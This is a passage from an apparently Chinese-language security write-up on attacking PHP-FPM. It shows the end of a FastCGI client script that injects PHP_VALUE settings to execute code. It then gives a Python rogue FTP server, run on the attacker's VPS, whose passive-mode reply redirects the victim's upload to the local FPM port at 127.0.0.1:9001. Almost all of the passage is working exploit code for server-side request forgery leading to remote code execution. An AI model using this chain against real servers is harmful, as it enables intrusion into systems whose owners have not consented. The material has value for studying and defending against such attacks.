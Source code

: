 ```bash
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

[![](assets/1698897074-a03f460d886dda4f77085bf4d9e1fde2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-9667f37e-b2e5-1.png)

然后执行以下脚本自己 vps 上搭建一个恶意的 ftp 服务器：

```bash
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```